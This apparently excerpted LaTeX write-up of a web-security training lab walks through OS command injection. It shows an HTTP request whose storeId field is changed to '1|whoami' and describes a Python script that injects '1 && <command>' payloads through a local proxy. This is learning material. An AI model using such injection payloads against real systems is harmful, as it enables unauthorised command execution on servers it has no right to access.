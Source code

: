 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
\begin{lstlisting}[label={lst:original-request},caption={Original request}]
      productId=1&storeId=1
      \end{lstlisting}

      \begin{lstlisting}[label={lst:modified-request},caption={Modified request}]
      ...
      Referer: https://0a4b0031040a0f9c839e4998008f0083.web-security-academy.net/product?productId=1
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      productId=1&storeId=1|whoami
      \end{lstlisting}

      \item Forward the modified request to the server.
      \item Inspect the server response for the output of the \texttt{whoami} command.
      \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure2.png}
      \caption{Result of the \texttt{whoami} command}
      \label{fig:whoami-result}
      \end{figure}
      
    \end{enumerate}

    \item[\textbf{Solution using Python script}:] \leavevmode\par
    Below is a simple Python script that sends a command injection payload to the vulnerable web application's parameter (`storeId`) and checks for remote command execution. 
    The key operations are as follows:

    Key operations:
    \begin{itemize}
      \item Send a POST request to the \texttt{/product/stock} endpoint, injecting a payload of the form \texttt{'1 \&\& <command>'} into the \texttt{storeId} parameter.
      \item Determine the success of the command execution based on the length of the response text (e.g., \texttt{len(r.text) > 3}).
      \item Configure the \texttt{proxies} to use a local proxy (127.0.0.1:8080) to observe traffic with tools like Burp or mitmproxy.
    \end{itemize}


\end{description}
\end{document}

